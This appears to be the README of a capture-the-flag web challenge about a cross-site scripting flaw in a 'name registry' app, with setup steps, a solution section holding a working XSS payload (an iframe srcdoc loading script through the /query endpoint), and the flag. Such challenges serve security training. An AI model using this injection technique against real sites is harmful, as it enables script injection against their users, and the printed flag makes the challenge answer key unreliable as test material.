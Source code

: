 # README

A white-hat hacker notified your SecTech that her public name registry is vulnerable to Cross-Site-Scripting (XSS)! He kindly reported the `/query` endpoint is vulnerable to XSS! It is up to you to validate what the hacker said! Try to exploit the following endpoint to identify anymore XSS vulnerability!

`http://sec-tech.cf:8080?q=max`

If you managed to get a pop-out box, send the payload to the GovTech admin in discord! Let him validate your XSS prowess and exchange for a flag! From time to time, if you are willing, put an interesting message in the XSS payload and he will use your payload during "air" time for this challenge! Or you figure out any interesting payload that does something funny, e.g. redirect the page away, or change the images! Show it to him! Who knows! He is easily impressed anyway! You might just get a flag!

_In actual applications you see in the wild, it is common for a single web application to suffer vulnerabilities on multiple endpoints! For this case, it was reported that `http://sec-tech.cf:8080/query` is vulnerable to XSS. Now you have to figure out if the main page `http://sec-tech.cf:8080` has XSS-related vulnerabillities!_

_Figuring it out the XSS vulnerability on the `/query` endpoint won't give you the flag, but it will be something that helps!_

## Setup

``` bash
#./demo-challenge-web
sudo docker-compose up --build
```

## Solution

Submission: http://sec-tech.cf:8081

``` bash
# http://sec-tech.cf:8080/?q=<iframe srcdoc="<script src='http://sec-tech.cf:8080/query?name=alert(`pwn-ed`);//'></script>"></iframe>
```

Flag: `WH2020{th3_XsS_pr0w3$$}`

